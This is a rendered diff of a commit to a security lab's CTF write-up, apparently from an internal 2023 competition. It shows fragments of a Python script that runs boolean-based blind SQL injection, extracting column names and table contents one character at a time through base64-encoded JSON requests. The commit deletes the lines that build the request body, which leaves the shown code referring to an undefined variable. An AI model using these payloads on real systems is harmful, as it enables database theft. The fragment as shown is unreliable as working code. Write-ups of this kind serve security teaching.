

Before and after one commit to VKU-Security-Lab/VKU-Security-Lab.github.io, a Markdown page: writeups/writeup-vsl-ctf-internal-2023.md, 3 parts joined by grey strips. Drawn GitHub-style.

```diff
--- a/writeups/writeup-vsl-ctf-internal-2023.md
+++ b/writeups/writeup-vsl-ctf-internal-2023.md
@@ -652,7 +649,6 @@ for table_child in table:
     for i in range(1,lenght_colums+1):
         for char in list_wordlist:
             payload = f"users 123' OR (SELECT SUBSTRING((SELECT (GROUP_CONCAT(COLUMN_NAME)) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '{table_child}'), {i}, 1) = '{char}') ; ##"
-            dataClear = f"""{{"username_remove_sql":"{payload}","requestMethod":"removeUser"}}"""
             encoded_data = base64.b64encode(dataClear.encode()).decode()
             data = {
                 "data": encoded_data
@@ -673,7 +669,6 @@ for table_child in table:
     lenght_content_table=0
     while True:
         payload = f"users 123' OR (SELECT LENGTH(GROUP_CONCAT({columns[0]})) FROM {table_child}) = {lenght_content_table} ; ##"
-        dataClear = f"""{{"username_remove_sql":"{payload}","requestMethod":"removeUser"}}"""
         encoded_data = base64.b64encode(dataClear.encode()).decode()
         data = {
             "data": encoded_data
@@ -694,7 +689,6 @@ for table_child in table:
     for i in range(1,lenght_content_table+1):
         for char in list_wordlist:
             payload = f"users 123' OR (SELECT SUBSTRING((SELECT (GROUP_CONCAT({columns[0]})) FROM {table_child}), {i}, 1) = '{char}') ; ##"
-            dataClear = f"""{{"username_remove_sql":"{payload}","requestMethod":"removeUser"}}"""
             encoded_data = base64.b64encode(dataClear.encode()).decode()
             data = {
                 "data": encoded_data
```
Also changed, not shown: other parts of writeups/writeup-vsl-ctf-internal-2023.md (+0 -3 lines).
